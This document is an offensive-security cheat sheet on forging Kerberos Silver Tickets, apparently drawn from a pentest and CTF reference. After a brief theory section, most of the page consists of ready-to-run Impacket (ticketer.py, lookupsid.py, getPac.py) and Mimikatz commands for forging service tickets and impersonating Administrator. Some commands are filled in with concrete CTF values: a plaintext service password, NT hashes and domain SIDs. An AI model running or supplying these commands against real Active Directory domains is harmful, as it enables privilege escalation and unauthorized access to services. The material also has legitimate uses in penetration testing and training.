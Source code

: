 # Silver Ticket

## Theory

The long-term key of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](https://github.com/ShutdownRepo/The-Hacker-Recipes/blob/master/ad/movement/kerberos/forged-tickets/broken-reference/README.md) to access that service. In a Silver Ticket scenario, an attacker will forge a Service Ticket containing a PAC that features arbitrary information about the requesting user, effectively granting lots of access.

In CTF, the Silver Ticket is useful when accessing to a specific service like SQL Server, which is running under SYSTEM privilege, and can run xp\_cmdshell for example.&#x20;

The Siliver Ticket requires a service account and password hash with domain SID.&#x20;

#### Unix

{% code overflow="wrap" %}
```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0
getPac.py sequel.htb/sql_svc:REGGIE1234ronnie -targetUser Administrator

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username_to_impersonate

python ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn Hahahah/dc.sequel.htb Administrator

# With svc_mssql account kerberos ticket imported. 
# https://codebeautify.org/ntlm-hash-generator to covert password to NTLM hash 
ticketer.py \
      -nthash 69596C7AA1E8DAEE17F8E78870E25A5C \
      -domain-sid S-1-5-21-2330692793-3312915120-706255856 \
      -domain breach.vl \
      -dc-ip BREACHDC.breach.vl \
      -spn 'MSSQLSvc/breachdc.breach.vl:1433' Administrator

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username_to_impersonate
```
{% endcode %}

#### Windows

{% code overflow="wrap" %}
```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```
{% endcode %}
